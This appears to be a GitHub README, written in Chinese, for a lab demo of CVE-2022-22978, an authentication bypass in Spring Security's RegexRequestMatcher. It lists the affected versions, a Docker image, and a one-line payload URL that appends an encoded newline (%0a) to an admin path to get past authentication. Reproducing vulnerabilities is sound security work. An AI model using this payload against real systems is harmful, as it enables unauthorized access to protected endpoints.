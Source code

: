 ### CVE-2022-22978 Spring-Security bypass Demo  
>在Spring Security中使用RegexRequestMatcher且规则中包含带点号的正则表达式时，攻击者可以通过构造恶意数据包绕过身份认证  
### 影响范围  
>Spring Security 5.5.x < 5.5.7  
Spring Security 5.6.x < 5.6.4
### 复现
![img.png](img.png)
![img_1.png](img_1.png)
### Paylaod
>http://localhost:8080/admin/index%0a
### Docker
> docker pull s0cke3t/cve-2022-22978:latest